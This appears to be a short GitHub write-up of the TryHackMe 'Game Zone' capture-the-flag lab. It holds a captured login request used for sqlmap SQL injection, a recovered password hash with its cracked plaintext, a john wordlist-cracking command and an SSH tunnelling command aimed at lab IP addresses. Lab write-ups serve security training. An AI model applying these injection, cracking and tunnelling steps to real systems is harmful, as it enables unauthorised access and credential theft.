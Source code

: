 # GameZone_tryhackme
gamezone tryhackme understanding sqlmap,hashcracking,ssh tunnel and priviledge escalation
![](login_page.png)


POST /portal.php HTTP/1.1
Host: 10.10.116.228
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.116.228/portal.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
Connection: close
Cookie: PHPSESSID=94hrt1bh289hbfc25js3aqkvb0
Upgrade-Insecure-Requests: 1

searchitem=test


![](sqlmap_details.png)


![](user_txt_agent47.png)


## agent47:ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14
## hash cracking password found:videogamer124
### command john hash.txt --wordlist=rockyou.txt --format=Raw-SHA256

![](checking_sockets.png)
## ssh tunneling command
# ssh -L 10000:localhost:10000 agent47@10.10.73.54
## login credentials we already know username: agent47 password:videogamer124

![](ssh_tunneling_result.png)
